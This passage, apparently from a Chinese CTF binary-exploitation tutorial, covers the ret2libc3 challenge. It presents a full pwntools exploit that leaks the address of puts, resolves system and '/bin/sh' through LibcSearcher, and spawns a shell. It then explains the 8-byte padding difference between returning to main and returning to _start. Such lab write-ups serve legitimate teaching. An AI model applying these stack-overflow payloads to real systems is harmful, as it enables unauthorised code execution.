 和另外一个，可以看一下区别：

```python
from pwn import *
from LibcSearcher import *

elf=ELF('ret2libc3')
p=process('./ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr = elf.symbols['_start']

#gdb.attach(p)
payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))

libc=LibcSearcher('puts',puts_addr)
libcbase=puts_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")

payload2='A'*112+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendlineafter("!?",payload2)

p.interactive()
```

首先两个`exp`基本都是这样一种思路：因为程序内部有`puts`函数，所以我们通过栈溢出来让该函数打印出某个已经使用过的函数在`libc`中的地址，从而通过相对地址来得到`system`函数，并设置返回地址为`main`函数或者`start`函数，来再次通过栈溢出到`system`函数来进行攻击。

然而，可以看到，两个`exp`在第二次栈溢出时填充的字符的长度是不相等的，相差8个字符长度。这里写下原因，因为第一个`exp`的第一次栈溢出是回到了`main`，第二个`exp`的第一次栈溢出是回到了`start`函数。

我们知道函数调用的顺序是：`start()`->`main()`->`其他函数()`

因此若回到`start()`函数，程序会再次调用`main()`函数，从而调用其他函数；

若回到`main()`函数，程序将直接调用其他函数。

两者相差一个`main()`函数的`return address `和`ebp`，因此刚好差8个字节。



此外，使用本地的`libc`：

```python
libc = ELF('./libc-2.19.so')
libcbase = write_libc - libc.symbols['write']
system_libc = libcbase + libc.symbols['system']
bin_sh_libc = libcbase + next(libc.search(b'/bin/sh'))
```



**也可以使用`libc`里面的`gadgets`。**

## ret2csu

